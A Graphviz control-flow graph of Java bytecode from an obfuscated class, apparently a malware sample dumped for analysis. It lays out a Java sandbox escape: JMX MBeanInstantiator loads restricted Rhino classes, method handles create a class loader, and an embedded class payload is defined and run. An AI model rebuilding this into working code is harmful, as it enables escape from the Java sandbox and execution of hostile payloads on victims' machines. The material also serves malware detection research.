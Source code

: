digraph "" {
    "r0 := @this: CloaAWx"
    "new java.io.ByteArrayOutputStream"
    "r0 := @this: CloaAWx"->"new java.io.ByteArrayOutputStream";
    "store.r r6"
    "new java.io.ByteArrayOutputStream"->"store.r r6";
    "load.r r6"
    "store.r r6"->"load.r r6";
    "specialinvoke <java.io.ByteArrayOutputStream: void <init>()>"
    "load.r r6"->"specialinvoke <java.io.ByteArrayOutputStream: void <init>()>";
    "push 8192"
    "specialinvoke <java.io.ByteArrayOutputStream: void <init>()>"->"push 8192";
    "newarray"
    "push 8192"->"newarray";
    "store.r r7"
    "newarray"->"store.r r7";
    "load.r r0"
    "store.r r7"->"load.r r0";
    "virtualinvoke <java.lang.Object: java.lang.Class getClass()>"
    "load.r r0"->"virtualinvoke <java.lang.Object: java.lang.Class getClass()>";
    "push \"B.class\""
    "virtualinvoke <java.lang.Object: java.lang.Class getClass()>"->"push \"B.class\"";
    "virtualinvoke <java.lang.Class: java.io.InputStream getResourceAsStream(java.lang.String)>"
    "push \"B.class\""->"virtualinvoke <java.lang.Class: java.io.InputStream getResourceAsStream(java.lang.String)>";
    "store.r r0"
    "virtualinvoke <java.lang.Class: java.io.InputStream getResourceAsStream(java.lang.String)>"->"store.r r0";
    "store.r r0"->"load.r r0";
    "load.r r7"
    "load.r r0"->"load.r r7";
    "virtualinvoke <java.io.InputStream: int read(byte[])>"
    "load.r r7"->"virtualinvoke <java.io.InputStream: int read(byte[])>";
    "store.i r5"
    "virtualinvoke <java.io.InputStream: int read(byte[])>"->"store.i r5";
    "load.i r5"
    "store.i r5"->"load.i r5";
    "ifle load.r r6"
    "load.i r5"->"ifle load.r r6";
    "ifle load.r r6"->"load.r r6";
    "load.r r6"->"load.r r7";
    "push 0"
    "load.r r7"->"push 0";
    "push 0"->"load.i r5";
    "virtualinvoke <java.io.ByteArrayOutputStream: void write(byte[],int,int)>"
    "load.i r5"->"virtualinvoke <java.io.ByteArrayOutputStream: void write(byte[],int,int)>";
    "goto load.r r0"
    "virtualinvoke <java.io.ByteArrayOutputStream: void write(byte[],int,int)>"->"goto load.r r0";
    "goto load.r r0"->"store.r r0";
    "return"
    "store.r r0"->"return";
    "ifle load.r r6"->"load.r r6";
    "virtualinvoke <java.io.ByteArrayOutputStream: byte[] toByteArray()>"
    "load.r r6"->"virtualinvoke <java.io.ByteArrayOutputStream: byte[] toByteArray()>";
    "virtualinvoke <java.io.ByteArrayOutputStream: byte[] toByteArray()>"->"store.r r0";
    "new com.sun.jmx.mbeanserver.JmxMBeanServerBuilder"
    "store.r r0"->"new com.sun.jmx.mbeanserver.JmxMBeanServerBuilder";
    "dup1.r"
    "new com.sun.jmx.mbeanserver.JmxMBeanServerBuilder"->"dup1.r";
    "specialinvoke <com.sun.jmx.mbeanserver.JmxMBeanServerBuilder: void <init>()>"
    "dup1.r"->"specialinvoke <com.sun.jmx.mbeanserver.JmxMBeanServerBuilder: void <init>()>";
    "push \"\""
    "specialinvoke <com.sun.jmx.mbeanserver.JmxMBeanServerBuilder: void <init>()>"->"push \"\"";
    "push null"
    "push \"\""->"push null";
    "push null"->"push null";
    "virtualinvoke <com.sun.jmx.mbeanserver.JmxMBeanServerBuilder: javax.management.MBeanServer newMBeanServer(java.lang.String,javax.management.MBeanServer,javax.management.MBeanServerDelegate)>"
    "push null"->"virtualinvoke <com.sun.jmx.mbeanserver.JmxMBeanServerBuilder: javax.management.MBeanServer newMBeanServer(java.lang.String,javax.management.MBeanServer,javax.management.MBeanServerDelegate)>";
    "checkcast"
    "virtualinvoke <com.sun.jmx.mbeanserver.JmxMBeanServerBuilder: javax.management.MBeanServer newMBeanServer(java.lang.String,javax.management.MBeanServer,javax.management.MBeanServerDelegate)>"->"checkcast";
    "virtualinvoke <com.sun.jmx.mbeanserver.JmxMBeanServer: com.sun.jmx.mbeanserver.MBeanInstantiator getMBeanInstantiator()>"
    "checkcast"->"virtualinvoke <com.sun.jmx.mbeanserver.JmxMBeanServer: com.sun.jmx.mbeanserver.MBeanInstantiator getMBeanInstantiator()>";
    "virtualinvoke <com.sun.jmx.mbeanserver.JmxMBeanServer: com.sun.jmx.mbeanserver.MBeanInstantiator getMBeanInstantiator()>"->"dup1.r";
    "push \"sun.org.mozilla.javascript.internal.Context\""
    "dup1.r"->"push \"sun.org.mozilla.javascript.internal.Context\"";
    "push \"sun.org.mozilla.javascript.internal.Context\""->"push null";
    "virtualinvoke <com.sun.jmx.mbeanserver.MBeanInstantiator: java.lang.Class findClass(java.lang.String,java.lang.ClassLoader)>"
    "push null"->"virtualinvoke <com.sun.jmx.mbeanserver.MBeanInstantiator: java.lang.Class findClass(java.lang.String,java.lang.ClassLoader)>";
    "store.r r5"
    "virtualinvoke <com.sun.jmx.mbeanserver.MBeanInstantiator: java.lang.Class findClass(java.lang.String,java.lang.ClassLoader)>"->"store.r r5";
    "push \"sun.org.mozilla.javascript.internal.GeneratedClassLoader\""
    "store.r r5"->"push \"sun.org.mozilla.javascript.internal.GeneratedClassLoader\"";
    "push \"sun.org.mozilla.javascript.internal.GeneratedClassLoader\""->"push null";
    "push null"->"virtualinvoke <com.sun.jmx.mbeanserver.MBeanInstantiator: java.lang.Class findClass(java.lang.String,java.lang.ClassLoader)>";
    "virtualinvoke <com.sun.jmx.mbeanserver.MBeanInstantiator: java.lang.Class findClass(java.lang.String,java.lang.ClassLoader)>"->"store.r r6";
    "staticinvoke <java.lang.invoke.MethodHandles: java.lang.invoke.MethodHandles$Lookup publicLookup()>"
    "store.r r6"->"staticinvoke <java.lang.invoke.MethodHandles: java.lang.invoke.MethodHandles$Lookup publicLookup()>";
    "staticinvoke <java.lang.invoke.MethodHandles: java.lang.invoke.MethodHandles$Lookup publicLookup()>"->"store.r r7";
    "staticget <CloaAWx: java.lang.Class class$java$lang$invoke$MethodHandle>"
    "store.r r7"->"staticget <CloaAWx: java.lang.Class class$java$lang$invoke$MethodHandle>";
    "ifnonnull staticget <CloaAWx: java.lang.Class class$java$lang$invoke$MethodHandle>"
    "staticget <CloaAWx: java.lang.Class class$java$lang$invoke$MethodHandle>"->"ifnonnull staticget <CloaAWx: java.lang.Class class$java$lang$invoke$MethodHandle>";
    "push \"java.lang.invoke.MethodHandle\""
    "ifnonnull staticget <CloaAWx: java.lang.Class class$java$lang$invoke$MethodHandle>"->"push \"java.lang.invoke.MethodHandle\"";
    "staticinvoke <CloaAWx: java.lang.Class class$(java.lang.String)>"
    "push \"java.lang.invoke.MethodHandle\""->"staticinvoke <CloaAWx: java.lang.Class class$(java.lang.String)>";
    "staticinvoke <CloaAWx: java.lang.Class class$(java.lang.String)>"->"dup1.r";
    "store.r r8"
    "dup1.r"->"store.r r8";
    "staticput <CloaAWx: java.lang.Class class$java$lang$invoke$MethodHandle>"
    "store.r r8"->"staticput <CloaAWx: java.lang.Class class$java$lang$invoke$MethodHandle>";
    "goto staticget <CloaAWx: java.lang.Class class$java$lang$Class>"
    "staticput <CloaAWx: java.lang.Class class$java$lang$invoke$MethodHandle>"->"goto staticget <CloaAWx: java.lang.Class class$java$lang$Class>";
    "staticget <CloaAWx: java.lang.Class class$java$lang$Class>"
    "goto staticget <CloaAWx: java.lang.Class class$java$lang$Class>"->"staticget <CloaAWx: java.lang.Class class$java$lang$Class>";
    "ifnonnull staticget <CloaAWx: java.lang.Class class$java$lang$Class>"
    "staticget <CloaAWx: java.lang.Class class$java$lang$Class>"->"ifnonnull staticget <CloaAWx: java.lang.Class class$java$lang$Class>";
    "push \"java.lang.Class\""
    "ifnonnull staticget <CloaAWx: java.lang.Class class$java$lang$Class>"->"push \"java.lang.Class\"";
    "push \"java.lang.Class\""->"staticinvoke <CloaAWx: java.lang.Class class$(java.lang.String)>";
    "staticinvoke <CloaAWx: java.lang.Class class$(java.lang.String)>"->"dup1.r";
    "store.r r13"
    "dup1.r"->"store.r r13";
    "staticput <CloaAWx: java.lang.Class class$java$lang$Class>"
    "store.r r13"->"staticput <CloaAWx: java.lang.Class class$java$lang$Class>";
    "goto push 1"
    "staticput <CloaAWx: java.lang.Class class$java$lang$Class>"->"goto push 1";
    "push 1"
    "goto push 1"->"push 1";
    "push 1"->"newarray";
    "store.r r15"
    "newarray"->"store.r r15";
    "staticget <CloaAWx: java.lang.Class class$java$lang$invoke$MethodType>"
    "store.r r15"->"staticget <CloaAWx: java.lang.Class class$java$lang$invoke$MethodType>";
    "ifnonnull staticget <CloaAWx: java.lang.Class class$java$lang$invoke$MethodType>"
    "staticget <CloaAWx: java.lang.Class class$java$lang$invoke$MethodType>"->"ifnonnull staticget <CloaAWx: java.lang.Class class$java$lang$invoke$MethodType>";
    "push \"java.lang.invoke.MethodType\""
    "ifnonnull staticget <CloaAWx: java.lang.Class class$java$lang$invoke$MethodType>"->"push \"java.lang.invoke.MethodType\"";
    "push \"java.lang.invoke.MethodType\""->"staticinvoke <CloaAWx: java.lang.Class class$(java.lang.String)>";
    "store.r $r34"
    "staticinvoke <CloaAWx: java.lang.Class class$(java.lang.String)>"->"store.r $r34";
    "load.r $r34"
    "store.r $r34"->"load.r $r34";
    "staticput <CloaAWx: java.lang.Class class$java$lang$invoke$MethodType>"
    "load.r $r34"->"staticput <CloaAWx: java.lang.Class class$java$lang$invoke$MethodType>";
    "goto load.r r15"
    "staticput <CloaAWx: java.lang.Class class$java$lang$invoke$MethodType>"->"goto load.r r15";
    "load.r r15"
    "goto load.r r15"->"load.r r15";
    "load.r r15"->"push 0";
    "push 0"->"load.r $r34";
    "arraywrite.r"
    "load.r $r34"->"arraywrite.r";
    "load.r r8"
    "arraywrite.r"->"load.r r8";
    "load.r r13"
    "load.r r8"->"load.r r13";
    "load.r r13"->"load.r r15";
    "staticinvoke <java.lang.invoke.MethodType: java.lang.invoke.MethodType methodType(java.lang.Class,java.lang.Class,java.lang.Class[])>"
    "load.r r15"->"staticinvoke <java.lang.invoke.MethodType: java.lang.invoke.MethodType methodType(java.lang.Class,java.lang.Class,java.lang.Class[])>";
    "staticinvoke <java.lang.invoke.MethodType: java.lang.invoke.MethodType methodType(java.lang.Class,java.lang.Class,java.lang.Class[])>"->"store.r r8";
    "staticget <CloaAWx: java.lang.Class class$java$lang$invoke$MethodHandles$Lookup>"
    "store.r r8"->"staticget <CloaAWx: java.lang.Class class$java$lang$invoke$MethodHandles$Lookup>";
    "ifnonnull staticget <CloaAWx: java.lang.Class class$java$lang$invoke$MethodHandles$Lookup>"
    "staticget <CloaAWx: java.lang.Class class$java$lang$invoke$MethodHandles$Lookup>"->"ifnonnull staticget <CloaAWx: java.lang.Class class$java$lang$invoke$MethodHandles$Lookup>";
    "push \"java.lang.invoke.MethodHandles$Lookup\""
    "ifnonnull staticget <CloaAWx: java.lang.Class class$java$lang$invoke$MethodHandles$Lookup>"->"push \"java.lang.invoke.MethodHandles$Lookup\"";
    "push \"java.lang.invoke.MethodHandles$Lookup\""->"staticinvoke <CloaAWx: java.lang.Class class$(java.lang.String)>";
    "staticinvoke <CloaAWx: java.lang.Class class$(java.lang.String)>"->"store.r r13";
    "store.r r13"->"load.r r13";
    "staticput <CloaAWx: java.lang.Class class$java$lang$invoke$MethodHandles$Lookup>"
    "load.r r13"->"staticput <CloaAWx: java.lang.Class class$java$lang$invoke$MethodHandles$Lookup>";
    "goto load.r r7"
    "staticput <CloaAWx: java.lang.Class class$java$lang$invoke$MethodHandles$Lookup>"->"goto load.r r7";
    "goto load.r r7"->"load.r r7";
    "load.r r7"->"load.r r13";
    "push \"findConstructor\""
    "load.r r13"->"push \"findConstructor\"";
    "push \"findConstructor\""->"load.r r8";
    "virtualinvoke <java.lang.invoke.MethodHandles$Lookup: java.lang.invoke.MethodHandle findVirtual(java.lang.Class,java.lang.String,java.lang.invoke.MethodType)>"
    "load.r r8"->"virtualinvoke <java.lang.invoke.MethodHandles$Lookup: java.lang.invoke.MethodHandle findVirtual(java.lang.Class,java.lang.String,java.lang.invoke.MethodType)>";
    "staticget <java.lang.Void: java.lang.Class TYPE>"
    "virtualinvoke <java.lang.invoke.MethodHandles$Lookup: java.lang.invoke.MethodHandle findVirtual(java.lang.Class,java.lang.String,java.lang.invoke.MethodType)>"->"staticget <java.lang.Void: java.lang.Class TYPE>";
    "staticinvoke <java.lang.invoke.MethodType: java.lang.invoke.MethodType methodType(java.lang.Class)>"
    "staticget <java.lang.Void: java.lang.Class TYPE>"->"staticinvoke <java.lang.invoke.MethodType: java.lang.invoke.MethodType methodType(java.lang.Class)>";
    "staticinvoke <java.lang.invoke.MethodType: java.lang.invoke.MethodType methodType(java.lang.Class)>"->"store.r r8";
    "push 3"
    "store.r r8"->"push 3";
    "push 3"->"newarray";
    "newarray"->"store.r r13";
    "store.r r13"->"load.r r13";
    "load.r r13"->"push 0";
    "push 0"->"load.r r7";
    "load.r r7"->"arraywrite.r";
    "arraywrite.r"->"load.r r13";
    "load.r r13"->"push 1";
    "load.r r5"
    "push 1"->"load.r r5";
    "load.r r5"->"arraywrite.r";
    "arraywrite.r"->"load.r r13";
    "push 2"
    "load.r r13"->"push 2";
    "push 2"->"load.r r8";
    "load.r r8"->"arraywrite.r";
    "arraywrite.r"->"load.r r13";
    "virtualinvoke <java.lang.invoke.MethodHandle: java.lang.Object invokeWithArguments(java.lang.Object[])>"
    "load.r r13"->"virtualinvoke <java.lang.invoke.MethodHandle: java.lang.Object invokeWithArguments(java.lang.Object[])>";
    "virtualinvoke <java.lang.invoke.MethodHandle: java.lang.Object invokeWithArguments(java.lang.Object[])>"->"checkcast";
    "checkcast"->"push 0";
    "push 0"->"newarray";
    "newarray"->"virtualinvoke <java.lang.invoke.MethodHandle: java.lang.Object invokeWithArguments(java.lang.Object[])>";
    "virtualinvoke <java.lang.invoke.MethodHandle: java.lang.Object invokeWithArguments(java.lang.Object[])>"->"store.r r8";
    "store.r r8"->"staticget <CloaAWx: java.lang.Class class$java$lang$invoke$MethodHandle>";
    "staticget <CloaAWx: java.lang.Class class$java$lang$invoke$MethodHandle>"->"ifnonnull staticget <CloaAWx: java.lang.Class class$java$lang$invoke$MethodHandle>";
    "ifnonnull staticget <CloaAWx: java.lang.Class class$java$lang$invoke$MethodHandle>"->"push \"java.lang.invoke.MethodHandle\"";
    "push \"java.lang.invoke.MethodHandle\""->"staticinvoke <CloaAWx: java.lang.Class class$(java.lang.String)>";
    "staticinvoke <CloaAWx: java.lang.Class class$(java.lang.String)>"->"dup1.r";
    "dup1.r"->"store.r r13";
    "store.r r13"->"staticput <CloaAWx: java.lang.Class class$java$lang$invoke$MethodHandle>";
    "staticput <CloaAWx: java.lang.Class class$java$lang$invoke$MethodHandle>"->"goto staticget <CloaAWx: java.lang.Class class$java$lang$Class>";
    "goto staticget <CloaAWx: java.lang.Class class$java$lang$Class>"->"staticget <CloaAWx: java.lang.Class class$java$lang$Class>";
    "staticget <CloaAWx: java.lang.Class class$java$lang$Class>"->"ifnonnull staticget <CloaAWx: java.lang.Class class$java$lang$Class>";
    "ifnonnull staticget <CloaAWx: java.lang.Class class$java$lang$Class>"->"push \"java.lang.Class\"";
    "push \"java.lang.Class\""->"staticinvoke <CloaAWx: java.lang.Class class$(java.lang.String)>";
    "staticinvoke <CloaAWx: java.lang.Class class$(java.lang.String)>"->"dup1.r";
    "dup1.r"->"store.r r15";
    "store.r r15"->"staticput <CloaAWx: java.lang.Class class$java$lang$Class>";
    "goto push 2"
    "staticput <CloaAWx: java.lang.Class class$java$lang$Class>"->"goto push 2";
    "goto push 2"->"push 2";
    "push 2"->"newarray";
    "newarray"->"store.r $r34";
    "staticget <CloaAWx: java.lang.Class class$java$lang$String>"
    "store.r $r34"->"staticget <CloaAWx: java.lang.Class class$java$lang$String>";
    "ifnonnull staticget <CloaAWx: java.lang.Class class$java$lang$String>"
    "staticget <CloaAWx: java.lang.Class class$java$lang$String>"->"ifnonnull staticget <CloaAWx: java.lang.Class class$java$lang$String>";
    "push \"java.lang.String\""
    "ifnonnull staticget <CloaAWx: java.lang.Class class$java$lang$String>"->"push \"java.lang.String\"";
    "push \"java.lang.String\""->"staticinvoke <CloaAWx: java.lang.Class class$(java.lang.String)>";
    "store.r $r63"
    "staticinvoke <CloaAWx: java.lang.Class class$(java.lang.String)>"->"store.r $r63";
    "load.r $r63"
    "store.r $r63"->"load.r $r63";
    "staticput <CloaAWx: java.lang.Class class$java$lang$String>"
    "load.r $r63"->"staticput <CloaAWx: java.lang.Class class$java$lang$String>";
    "goto load.r $r34"
    "staticput <CloaAWx: java.lang.Class class$java$lang$String>"->"goto load.r $r34";
    "goto load.r $r34"->"load.r $r34";
    "load.r $r34"->"push 0";
    "push 0"->"load.r $r63";
    "load.r $r63"->"arraywrite.r";
    "arraywrite.r"->"staticget <CloaAWx: java.lang.Class class$java$lang$invoke$MethodType>";
    "staticget <CloaAWx: java.lang.Class class$java$lang$invoke$MethodType>"->"ifnonnull staticget <CloaAWx: java.lang.Class class$java$lang$invoke$MethodType>";
    "ifnonnull staticget <CloaAWx: java.lang.Class class$java$lang$invoke$MethodType>"->"push \"java.lang.invoke.MethodType\"";
    "push \"java.lang.invoke.MethodType\""->"staticinvoke <CloaAWx: java.lang.Class class$(java.lang.String)>";
    "staticinvoke <CloaAWx: java.lang.Class class$(java.lang.String)>"->"store.r $r63";
    "store.r $r63"->"load.r $r63";
    "load.r $r63"->"staticput <CloaAWx: java.lang.Class class$java$lang$invoke$MethodType>";
    "staticput <CloaAWx: java.lang.Class class$java$lang$invoke$MethodType>"->"goto load.r $r34";
    "goto load.r $r34"->"load.r $r34";
    "load.r $r34"->"push 1";
    "push 1"->"load.r $r63";
    "load.r $r63"->"arraywrite.r";
    "arraywrite.r"->"load.r r13";
    "load.r r13"->"load.r r15";
    "load.r r15"->"load.r $r34";
    "load.r $r34"->"staticinvoke <java.lang.invoke.MethodType: java.lang.invoke.MethodType methodType(java.lang.Class,java.lang.Class,java.lang.Class[])>";
    "staticinvoke <java.lang.invoke.MethodType: java.lang.invoke.MethodType methodType(java.lang.Class,java.lang.Class,java.lang.Class[])>"->"store.r r13";
    "store.r r13"->"staticget <CloaAWx: java.lang.Class class$java$lang$invoke$MethodHandles$Lookup>";
    "staticget <CloaAWx: java.lang.Class class$java$lang$invoke$MethodHandles$Lookup>"->"ifnonnull staticget <CloaAWx: java.lang.Class class$java$lang$invoke$MethodHandles$Lookup>";
    "ifnonnull staticget <CloaAWx: java.lang.Class class$java$lang$invoke$MethodHandles$Lookup>"->"push \"java.lang.invoke.MethodHandles$Lookup\"";
    "push \"java.lang.invoke.MethodHandles$Lookup\""->"staticinvoke <CloaAWx: java.lang.Class class$(java.lang.String)>";
    "staticinvoke <CloaAWx: java.lang.Class class$(java.lang.String)>"->"store.r r15";
    "store.r r15"->"load.r r15";
    "load.r r15"->"staticput <CloaAWx: java.lang.Class class$java$lang$invoke$MethodHandles$Lookup>";
    "staticput <CloaAWx: java.lang.Class class$java$lang$invoke$MethodHandles$Lookup>"->"goto load.r r7";
    "goto load.r r7"->"load.r r7";
    "load.r r7"->"load.r r15";
    "push \"findVirtual\""
    "load.r r15"->"push \"findVirtual\"";
    "push \"findVirtual\""->"load.r r13";
    "load.r r13"->"virtualinvoke <java.lang.invoke.MethodHandles$Lookup: java.lang.invoke.MethodHandle findVirtual(java.lang.Class,java.lang.String,java.lang.invoke.MethodType)>";
    "virtualinvoke <java.lang.invoke.MethodHandles$Lookup: java.lang.invoke.MethodHandle findVirtual(java.lang.Class,java.lang.String,java.lang.invoke.MethodType)>"->"store.r r13";
    "staticget <CloaAWx: java.lang.Class class$java$lang$ClassLoader>"
    "store.r r13"->"staticget <CloaAWx: java.lang.Class class$java$lang$ClassLoader>";
    "ifnonnull staticget <CloaAWx: java.lang.Class class$java$lang$ClassLoader>"
    "staticget <CloaAWx: java.lang.Class class$java$lang$ClassLoader>"->"ifnonnull staticget <CloaAWx: java.lang.Class class$java$lang$ClassLoader>";
    "push \"java.lang.ClassLoader\""
    "ifnonnull staticget <CloaAWx: java.lang.Class class$java$lang$ClassLoader>"->"push \"java.lang.ClassLoader\"";
    "push \"java.lang.ClassLoader\""->"staticinvoke <CloaAWx: java.lang.Class class$(java.lang.String)>";
    "staticinvoke <CloaAWx: java.lang.Class class$(java.lang.String)>"->"store.r r15";
    "store.r r15"->"load.r r15";
    "staticput <CloaAWx: java.lang.Class class$java$lang$ClassLoader>"
    "load.r r15"->"staticput <CloaAWx: java.lang.Class class$java$lang$ClassLoader>";
    "goto load.r r6"
    "staticput <CloaAWx: java.lang.Class class$java$lang$ClassLoader>"->"goto load.r r6";
    "goto load.r r6"->"load.r r6";
    "load.r r6"->"load.r r15";
    "staticinvoke <java.lang.invoke.MethodType: java.lang.invoke.MethodType methodType(java.lang.Class,java.lang.Class)>"
    "load.r r15"->"staticinvoke <java.lang.invoke.MethodType: java.lang.invoke.MethodType methodType(java.lang.Class,java.lang.Class)>";
    "staticinvoke <java.lang.invoke.MethodType: java.lang.invoke.MethodType methodType(java.lang.Class,java.lang.Class)>"->"store.r r15";
    "push 4"
    "store.r r15"->"push 4";
    "push 4"->"newarray";
    "newarray"->"store.r $r34";
    "store.r $r34"->"load.r $r34";
    "load.r $r34"->"push 0";
    "push 0"->"load.r r7";
    "load.r r7"->"arraywrite.r";
    "arraywrite.r"->"load.r $r34";
    "load.r $r34"->"push 1";
    "push 1"->"load.r r5";
    "load.r r5"->"arraywrite.r";
    "arraywrite.r"->"load.r $r34";
    "load.r $r34"->"push 2";
    "push \"createClassLoader\""
    "push 2"->"push \"createClassLoader\"";
    "push \"createClassLoader\""->"arraywrite.r";
    "arraywrite.r"->"load.r $r34";
    "load.r $r34"->"push 3";
    "push 3"->"load.r r15";
    "load.r r15"->"arraywrite.r";
    "arraywrite.r"->"load.r r13";
    "load.r r13"->"load.r $r34";
    "load.r $r34"->"virtualinvoke <java.lang.invoke.MethodHandle: java.lang.Object invokeWithArguments(java.lang.Object[])>";
    "virtualinvoke <java.lang.invoke.MethodHandle: java.lang.Object invokeWithArguments(java.lang.Object[])>"->"checkcast";
    "checkcast"->"push 2";
    "push 2"->"newarray";
    "newarray"->"store.r r5";
    "store.r r5"->"load.r r5";
    "load.r r5"->"push 0";
    "push 0"->"load.r r8";
    "load.r r8"->"arraywrite.r";
    "arraywrite.r"->"load.r r5";
    "load.r r5"->"push 1";
    "push 1"->"push null";
    "push null"->"arraywrite.r";
    "arraywrite.r"->"load.r r5";
    "load.r r5"->"virtualinvoke <java.lang.invoke.MethodHandle: java.lang.Object invokeWithArguments(java.lang.Object[])>";
    "virtualinvoke <java.lang.invoke.MethodHandle: java.lang.Object invokeWithArguments(java.lang.Object[])>"->"store.r r5";
    "store.r r5"->"staticget <CloaAWx: java.lang.Class class$java$lang$Class>";
    "staticget <CloaAWx: java.lang.Class class$java$lang$Class>"->"ifnonnull staticget <CloaAWx: java.lang.Class class$java$lang$Class>";
    "ifnonnull staticget <CloaAWx: java.lang.Class class$java$lang$Class>"->"push \"java.lang.Class\"";
    "push \"java.lang.Class\""->"staticinvoke <CloaAWx: java.lang.Class class$(java.lang.String)>";
    "staticinvoke <CloaAWx: java.lang.Class class$(java.lang.String)>"->"dup1.r";
    "dup1.r"->"store.r r8";
    "store.r r8"->"staticput <CloaAWx: java.lang.Class class$java$lang$Class>";
    "goto staticget <CloaAWx: java.lang.Class class$java$lang$String>"
    "staticput <CloaAWx: java.lang.Class class$java$lang$Class>"->"goto staticget <CloaAWx: java.lang.Class class$java$lang$String>";
    "goto staticget <CloaAWx: java.lang.Class class$java$lang$String>"->"staticget <CloaAWx: java.lang.Class class$java$lang$String>";
    "staticget <CloaAWx: java.lang.Class class$java$lang$String>"->"ifnonnull staticget <CloaAWx: java.lang.Class class$java$lang$String>";
    "ifnonnull staticget <CloaAWx: java.lang.Class class$java$lang$String>"->"push \"java.lang.String\"";
    "push \"java.lang.String\""->"staticinvoke <CloaAWx: java.lang.Class class$(java.lang.String)>";
    "staticinvoke <CloaAWx: java.lang.Class class$(java.lang.String)>"->"dup1.r";
    "dup1.r"->"store.r r15";
    "store.r r15"->"staticput <CloaAWx: java.lang.Class class$java$lang$String>";
    "staticput <CloaAWx: java.lang.Class class$java$lang$String>"->"goto push 1";
    "goto push 1"->"push 1";
    "push 1"->"newarray";
    "newarray"->"store.r $r34";
    "staticget <CloaAWx: java.lang.Class array$B>"
    "store.r $r34"->"staticget <CloaAWx: java.lang.Class array$B>";
    "ifnonnull staticget <CloaAWx: java.lang.Class array$B>"
    "staticget <CloaAWx: java.lang.Class array$B>"->"ifnonnull staticget <CloaAWx: java.lang.Class array$B>";
    "push \"[B\""
    "ifnonnull staticget <CloaAWx: java.lang.Class array$B>"->"push \"[B\"";
    "push \"[B\""->"staticinvoke <CloaAWx: java.lang.Class class$(java.lang.String)>";
    "staticinvoke <CloaAWx: java.lang.Class class$(java.lang.String)>"->"store.r $r63";
    "store.r $r63"->"load.r $r63";
    "staticput <CloaAWx: java.lang.Class array$B>"
    "load.r $r63"->"staticput <CloaAWx: java.lang.Class array$B>";
    "staticput <CloaAWx: java.lang.Class array$B>"->"goto load.r $r34";
    "goto load.r $r34"->"load.r $r34";
    "load.r $r34"->"push 0";
    "push 0"->"load.r $r63";
    "load.r $r63"->"arraywrite.r";
    "arraywrite.r"->"load.r r8";
    "load.r r8"->"load.r r15";
    "load.r r15"->"load.r $r34";
    "load.r $r34"->"staticinvoke <java.lang.invoke.MethodType: java.lang.invoke.MethodType methodType(java.lang.Class,java.lang.Class,java.lang.Class[])>";
    "staticinvoke <java.lang.invoke.MethodType: java.lang.invoke.MethodType methodType(java.lang.Class,java.lang.Class,java.lang.Class[])>"->"store.r r8";
    "store.r r8"->"push 4";
    "push 4"->"newarray";
    "newarray"->"store.r r15";
    "store.r r15"->"load.r r15";
    "load.r r15"->"push 0";
    "push 0"->"load.r r7";
    "load.r r7"->"arraywrite.r";
    "arraywrite.r"->"load.r r15";
    "load.r r15"->"push 1";
    "push 1"->"load.r r6";
    "load.r r6"->"arraywrite.r";
    "arraywrite.r"->"load.r r15";
    "load.r r15"->"push 2";
    "push \"defineClass\""
    "push 2"->"push \"defineClass\"";
    "push \"defineClass\""->"arraywrite.r";
    "arraywrite.r"->"load.r r15";
    "load.r r15"->"push 3";
    "push 3"->"load.r r8";
    "load.r r8"->"arraywrite.r";
    "arraywrite.r"->"load.r r13";
    "load.r r13"->"load.r r15";
    "load.r r15"->"virtualinvoke <java.lang.invoke.MethodHandle: java.lang.Object invokeWithArguments(java.lang.Object[])>";
    "virtualinvoke <java.lang.invoke.MethodHandle: java.lang.Object invokeWithArguments(java.lang.Object[])>"->"checkcast";
    "checkcast"->"push 3";
    "push 3"->"newarray";
    "newarray"->"store.r r6";
    "store.r r6"->"load.r r6";
    "load.r r6"->"push 0";
    "push 0"->"load.r r5";
    "load.r r5"->"arraywrite.r";
    "arraywrite.r"->"load.r r6";
    "load.r r6"->"push 1";
    "push 1"->"push null";
    "push null"->"arraywrite.r";
    "arraywrite.r"->"load.r r6";
    "load.r r6"->"push 2";
    "push 2"->"load.r r0";
    "load.r r0"->"arraywrite.r";
    "arraywrite.r"->"load.r r6";
    "load.r r6"->"virtualinvoke <java.lang.invoke.MethodHandle: java.lang.Object invokeWithArguments(java.lang.Object[])>";
    "virtualinvoke <java.lang.invoke.MethodHandle: java.lang.Object invokeWithArguments(java.lang.Object[])>"->"checkcast";
    "virtualinvoke <java.lang.Class: java.lang.Object newInstance()>"
    "checkcast"->"virtualinvoke <java.lang.Class: java.lang.Object newInstance()>";
    "pop"
    "virtualinvoke <java.lang.Class: java.lang.Object newInstance()>"->"pop";
    "pop"->"push null";
    "staticinvoke <vlExxkWSaP.pJUuKoj: void main(java.lang.String[])>"
    "push null"->"staticinvoke <vlExxkWSaP.pJUuKoj: void main(java.lang.String[])>";
    "goto return"
    "staticinvoke <vlExxkWSaP.pJUuKoj: void main(java.lang.String[])>"->"goto return";
    "ifnonnull staticget <CloaAWx: java.lang.Class array$B>"->"staticget <CloaAWx: java.lang.Class array$B>";
    "staticget <CloaAWx: java.lang.Class array$B>"->"store.r $r63";
    "ifnonnull staticget <CloaAWx: java.lang.Class class$java$lang$String>"->"staticget <CloaAWx: java.lang.Class class$java$lang$String>";
    "staticget <CloaAWx: java.lang.Class class$java$lang$String>"->"store.r r15";
    "ifnonnull staticget <CloaAWx: java.lang.Class class$java$lang$Class>"->"staticget <CloaAWx: java.lang.Class class$java$lang$Class>";
    "staticget <CloaAWx: java.lang.Class class$java$lang$Class>"->"store.r r8";
    "ifnonnull staticget <CloaAWx: java.lang.Class class$java$lang$ClassLoader>"->"staticget <CloaAWx: java.lang.Class class$java$lang$ClassLoader>";
    "staticget <CloaAWx: java.lang.Class class$java$lang$ClassLoader>"->"store.r r15";
    "ifnonnull staticget <CloaAWx: java.lang.Class class$java$lang$invoke$MethodHandles$Lookup>"->"staticget <CloaAWx: java.lang.Class class$java$lang$invoke$MethodHandles$Lookup>";
    "staticget <CloaAWx: java.lang.Class class$java$lang$invoke$MethodHandles$Lookup>"->"store.r r15";
    "ifnonnull staticget <CloaAWx: java.lang.Class class$java$lang$invoke$MethodType>"->"staticget <CloaAWx: java.lang.Class class$java$lang$invoke$MethodType>";
    "staticget <CloaAWx: java.lang.Class class$java$lang$invoke$MethodType>"->"store.r $r63";
    "ifnonnull staticget <CloaAWx: java.lang.Class class$java$lang$String>"->"staticget <CloaAWx: java.lang.Class class$java$lang$String>";
    "staticget <CloaAWx: java.lang.Class class$java$lang$String>"->"store.r $r63";
    "ifnonnull staticget <CloaAWx: java.lang.Class class$java$lang$Class>"->"staticget <CloaAWx: java.lang.Class class$java$lang$Class>";
    "staticget <CloaAWx: java.lang.Class class$java$lang$Class>"->"store.r r15";
